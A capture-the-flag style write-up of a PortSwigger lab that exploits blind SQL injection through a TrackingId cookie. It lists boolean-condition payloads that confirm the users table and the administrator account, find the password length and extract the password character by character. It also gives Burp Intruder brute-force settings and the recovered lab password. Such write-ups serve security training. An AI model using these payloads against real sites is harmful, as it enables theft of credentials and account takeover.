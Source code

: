 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/a2277a84-8741-4b90-b15e-d88ad9c9eda9)


## Solution :

Query made - 

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '<COOKIE-VALUE>'
```
![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/6f499d35-6e1f-418e-8a34-f8b18889ea14)

*This how the session looks like where ```TrackingId and COOKIE-VALUE``` are shown and  Welcome back message is also displyed.*


TrackingID parameter is vulnerable. So it is vulnerablecan to blind SQL injection on trackingID parameter.

```If the Condition is true it will display the Welcome back message```

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND 1=1-- '
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/fe425f15-d397-46a0-a068-7bcbdc6b4de8)

```If the Condition is not true it will not  display the Welcome back message```

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND 1=2-- '
```
![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/8490db5d-55ae-4aaa-8924-0aee2f53704e)

#### Check Whether the users table is present  -

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT 'Ananthan' FROM users LIMIT 1) = 'Ananthan' --
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/1c3a0a67-73de-444c-b0bb-ad5af810eb62)

It display the Welcome back message. So ```user``` table is present.


#### Check Whether the username administrator is present in users table -

```Here table name is users```

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT 'Ananthan' FROM users WHERE username='administrator')='Ananthan
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/88dbcb08-b121-47a8-8b20-cad203b083d4)

It display the Welcome back message. So username ```administrator```  is present in the user table.

#### Check the length password of administrator-

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT 'Ananthan' FROM users WHERE username='administrator' AND LENGTH(password)>15))='Ananthan
```
 
![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/6db47b3e-85b7-413e-aaf1-8ce6dc413045)

```Here 15 indicates the length of the password and it returns the response as true means the length of the password is greater than 15 as it display the Welcome back message.```

```Then changed the length from 15 to 25 ```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/a2bd8908-a70e-425e-87bd-efde7e4d2bbe)

 ```It returns the response as false means the length of the password is less than 25 as it didn't display the Welcome back message.So the password length must be in between 15-25.```

```To find the length of the password send qury to  Intruder then and Add the password length part [> 15] and select attack type as SNIPER```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/0cb97d88-5d96-4803-a9d6-8a7c6f3c2345)

```Then go to  payload sleect payload type as numbers after that set from 15 to 25.```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/d3b3e562-81b9-449c-97e6-d3d64aa52be2)

```Then go to Grep-Match in setting and type Welcome back and start attack.```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/e55351a5-0c64-4f7a-8270-008268938e20)
 
```After brute-force we understood that 20 is length of the password because while checking if length(password) > 20 it FAILS it didn't display the Welcome back message.```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/1eb1d632-3ab2-4d73-b790-7c106fe6aadd)

#### Finding the  20 character length password by Brute force -


```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator' )='Ananthan--
```
we will able get the first character of the password that is  ```u```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/ca75666a-da6e-4522-a2bc-d8ab76615131)

```To get all character of the password togther we need to set the attack type as cluter bomb and set to payloads one is for the postion of the chractor and other one normal string payload and select 1st payload set as number[range 1-20] to detemine the postion of the character and other payload as bruteforce [min & max length = 1] to determine the character . And then go to Grep-Match in setting and type Welcome back and start attack.```

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT SUBSTRING(password,$1$,1) FROM users WHERE username='administrator' )='$Ananthan$'--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/3c5afa8f-6b01-4cf9-95b5-b734ab02728b)

Now, we have received 20 different payloads that provide us with the 'Welcome back' option

![Screenshot 2024-02-04 153346](https://github.com/ananthan05/Portswigger_labs/assets/140697378/bae24401-2cb9-48dd-8acc-5ffa58ba0e55)

Araange the payload2 characters according to the payload1 numbers in the correct order .

Password  = `uc5e5ot47gtajjumawrg`

Successfully logged in administrator.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/eb508fb6-0848-4c78-aeb2-a64df691d8e6)



